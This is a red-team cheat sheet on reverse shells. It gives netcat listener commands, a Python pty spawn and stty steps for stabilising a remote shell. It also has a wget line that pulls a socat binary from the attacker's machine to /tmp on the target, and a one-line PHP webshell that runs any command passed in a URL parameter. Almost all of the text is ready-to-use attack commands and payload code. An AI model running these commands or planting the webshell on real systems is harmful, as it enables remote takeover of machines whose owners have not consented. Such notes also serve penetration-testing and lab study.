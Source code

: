 ```yaml
---
category:
  - redteam
---
```

!!! info "Info"
	"Reverse shells _allow attackers to open ports to the target machines, forcing communication and_ enabling a complete takeover of the target machine." -[Imperva](https://www.imperva.com/learn/application-security/reverse-shell/)
## Stabilization
### TTY Size
In second terminal window, get rows & columns with `stty -a`, then set them in the remote shell with `stty {rows|cols} <number>`

### Netcat
Rlwrap: `rlwrap nc -lvnp <port>`
If Python is available:
```bash
sudo nc -lvnp 1234  # listen for connections on port 1234
python -c 'import pty;pty.spawn("/bin/bash")'   # start bash
export TERM=xterm
[Ctrl+Z]    # background the session
stty raw -echo; fg     # Stabilze and foreground the shell
```
### Socat
If Python is available:
```
# Start Python webserver on local machine
sudo python3 -m http.server 80
# Get a netcat shell
sudo nc -lvnp <port> 
# Download socat compiled binary to target machine
wget \<local IP>/socat -O /tmp/socat
```

## Basic Webshell
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
See `/usr/share/webshells` on Kali
